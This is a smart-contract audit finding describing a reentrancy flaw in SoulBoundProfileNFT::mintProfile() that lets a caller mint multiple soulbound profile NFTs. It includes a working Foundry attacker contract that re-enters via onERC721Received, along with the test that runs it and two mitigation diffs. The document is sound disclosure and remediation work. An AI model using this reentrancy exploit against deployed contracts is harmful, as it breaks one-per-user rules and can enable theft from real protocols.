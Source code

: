 ### [M-02] Reentrency in `SoulBoundProfileNFT::mintProfile()` Allows Users to Mint Multiple NFTs

**Description:**

The `SoulBoundProfileNFT::mintProfile()` function in SoulBoundProfileNFT does not follow the Checks-Effects-Interactions (CEI) pattern or implement a reentrancy guard, leaving it vulnerable to reentrancy attacks. A malicious contract can exploit this vulnerability to mint multiple NFTs by recursively calling `SoulBoundProfileNFT::mintProfile()` during the ` _safeMint()` operation.
```javascript
    function mintProfile(
        string memory name,
        uint8 age,
        string memory profileImage
    ) external {
        require(profileToToken[msg.sender] == 0, "Profile already exists");

        uint256 tokenId = ++_nextTokenId;
@>      _safeMint(msg.sender, tokenId);

        // Store metadata on-chain
        _profiles[tokenId] = Profile(name, age, profileImage);
        profileToToken[msg.sender] = tokenId;

        emit ProfileMinted(msg.sender, tokenId, name, age, profileImage);
    }
```

**Impact:**

Medium. Attackers can mint multiple NFTs by exploiting reentrancy, bypassing the one-profile-per-user rule.
While this does not directly impact the core dating app functionality, it compromises the uniqueness and integrity of profiles.

**Proof of Concept:**

An attacker contract implements onERC721Received() to recursively call mintProfile() before the first mint completes.
```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.19;

import "forge-std/Test.sol";
import "../src/SoulboundProfileNFT.sol";
import "@openzeppelin/contracts/token/ERC721/IERC721Receiver.sol";

contract TestAttacker is Test, IERC721Receiver {
    SoulboundProfileNFT soulboundNFT;
    uint8 counter;

    function onERC721Received(
        address,
        address,
        uint256,
        bytes calldata
    ) external returns (bytes4) {
        console.log("onERC721Received called");
        if (counter < 5) {
            counter++;
            soulboundNFT.mintProfile(
                "Alice",
                25 + counter,
                "ipfs://profileImage"
            );
        }
        return IERC721Receiver.onERC721Received.selector;
    }

    constructor(SoulboundProfileNFT _soulboundNFT) {
        soulboundNFT = _soulboundNFT;
    }

    receive() external payable {}

    function attack() external payable {
        soulboundNFT.mintProfile("Alice", 25, "ipfs://profileImage");
    }
}
```

test exectution in SoulboundProfileNFTTest:
```javascript
    function testReentrancyAttack() public {
        TestAttacker attacker = new TestAttacker(soulboundNFT);
        vm.prank(address(attacker));
        attacker.attack();

        //getNextTokenID() is a getter funciton in testSoulBoundProfileNFT (later implemented)
        console.log("tokenID: ", soulboundNFT.getNextTokenID());
    }
```

**Recommended Mitigation:**

Fix 1: Follow the Checks-Effects-Interactions (CEI) Pattern
Modify mintProfile() to update state before external calls to _safeMint(), preventing reentrancy.

```diff
    function mintProfile(
        string memory name,
        uint8 age,
        string memory profileImage
    ) external {

        require(profileToToken[msg.sender] == 0, "Profile already exists");

       uint256 tokenId = ++_nextTokenId;
-       _safeMint(msg.sender, tokenId);

        // Store metadata on-chain
        _profiles[tokenId] = Profile(name, age, profileImage);
        profileToToken[msg.sender] = tokenId;

+       _safeMint(msg.sender, tokenId);
        emit ProfileMinted(msg.sender, tokenId, name, age, profileImage);
    }
```

Fix 2: Implement a Reentrancy Guard
Use OpenZeppelin's ReentrancyGuard to block reentrant calls.
```diff
- contract SoulboundProfileNFT is ERC721, Ownable {
+ contract SoulboundProfileNFT is ERC721, Ownable, ReentrancyGuard {

...

-   function mintProfile(string memory name, uint8 age, string memory profileImage) external {
+   function mintProfile(string memory name, uint8 age, string memory profileImage) external nonReentrant {

        require(profileToToken[msg.sender] == 0, "Profile already exists");

        uint256 tokenId = ++_nextTokenId;
        _safeMint(msg.sender, tokenId);

        // Store metadata on-chain
        _profiles[tokenId] = Profile(name, age, profileImage);
        profileToToken[msg.sender] = tokenId;

        emit ProfileMinted(msg.sender, tokenId, name, age, profileImage);
    }
```